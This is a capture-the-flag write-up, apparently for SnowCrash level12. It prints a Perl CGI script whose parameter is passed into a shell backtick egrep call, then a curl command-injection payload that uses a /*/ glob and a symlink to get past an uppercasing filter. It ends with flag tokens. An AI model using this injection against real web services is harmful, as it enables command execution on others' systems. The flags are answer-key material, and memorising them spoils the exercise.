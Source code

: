 When we started the level we found a level12.pl.
=> 
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));

We can easily understand that the security breach is `@output = `egrep "^$xx" /tmp/xd 2>&1`;`

We tried to made some injections but the regex turn our ls to => LS that make some errors .. 
After one full day of research we tried to exec /bin/ls and to trasnfer the result in the error file of apache in /var/log/apache2/error.log and we finaly get some error to try to debug things : [Thu Feb 08 13:33:52 2024] [error] [client 127.0.0.1] /*/LS: not found.

After this we got idea to just make a link beetween /bin/ls and /tmp/LS : ln -s /bin/ls /tmp/LS
Then trying to execute curl '127.0.0.1:4646/?x=`/*/ls%3E%262`'.

This work, we got an LS in the errorlog of Apache

Do this with Getflag and we finaly get the flag ! cat /var/log/apache2/error.log :
[Thu Feb 08 13:41:20 2024] [error] [client 127.0.0.1] Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr

/*********************************************************\

flag12@SnowCrash:~$ getflag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

\*********************************************************/
